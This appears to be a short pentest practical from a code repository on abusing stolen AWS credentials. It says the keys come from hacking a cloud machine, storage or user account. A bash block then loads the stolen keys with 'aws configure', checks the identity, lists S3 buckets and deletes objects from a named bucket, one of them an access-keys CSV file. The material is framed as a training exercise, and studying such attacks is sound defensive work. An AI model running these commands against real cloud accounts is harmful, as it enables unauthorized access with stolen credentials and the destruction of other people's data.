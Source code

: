 ## For this practical to work, pentester should be able to retrieve working keys from other means(like hacking cloud computer or s3 storage or regular user account)

```bash
#Provide Stolen Key Details after below command
aws configure

#To Get Stolen Keys Details
aws sts get-caller-identity

#Trying to access and modify data in cloud
aws s3 ls
aws s3 ls s3://hsbucket2
aws s3 rm s3://hsbucket2/1
aws s3 rm s3://hsbucket2/smb-3kn32w1v.zip
aws s3 rm s3://hsbucket2/awscliuser_accessKeys.csv
```
